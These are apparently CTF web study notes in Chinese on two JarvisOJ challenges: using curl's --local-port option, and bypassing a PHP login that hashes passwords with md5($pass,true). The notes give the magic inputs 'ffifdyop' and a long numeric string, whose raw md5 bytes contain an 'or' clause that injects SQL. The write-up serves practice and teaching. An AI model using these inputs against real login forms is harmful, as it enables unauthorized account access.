 # 对CTF-Web的记录与总结 #

### 使用本地的某个端口号对网址进行访问 ###

[例题:JarvisOJ PORT51](http://web.jarvisoj.com:32770/)

curl 参数 --local-port RANGE  强制使用的本地端口号

***payload***
`curl --local-port 51 http://web.jarvisoj.com:32770/`

(在做题的时候貌似出了问题 没有回显)

### php中md5($str,true)注入 ###

[例题:JarvisOJ Login](http://web.jarvisoj.com:32772/)

```
Hint: "select * from `admin` where password='".md5($pass,true)."'"
```

关键在于md5函数的第二个参数为true

- TRUE - 原始 16 字符二进制格式
- FALSE - 默认 32 字符十六进制数

例如输入为: `asdf` 时

得到md5为 `912ec803b2ce49e4a541068d495ab570` 这是false的情况

得到的16字符为 `.È²ÎIä¥AIZµp` 这是true的情况

当转换出的字符能够进行sql注入时即可提取flag

当输入为`129581926211651571912466741651878684928`或`ffifdyop`均能得到flag

```
129581926211651571912466741651878684928
md5: 06da5430449f8f6f23dfc1276f722738
ascii: ÚT0Do#ßÁ'or'8
```

```
ffifdyop
md5: 276f722736c95d99e921722cf9ed621c
ascii: 'or'6É]é!r,ùíb
```
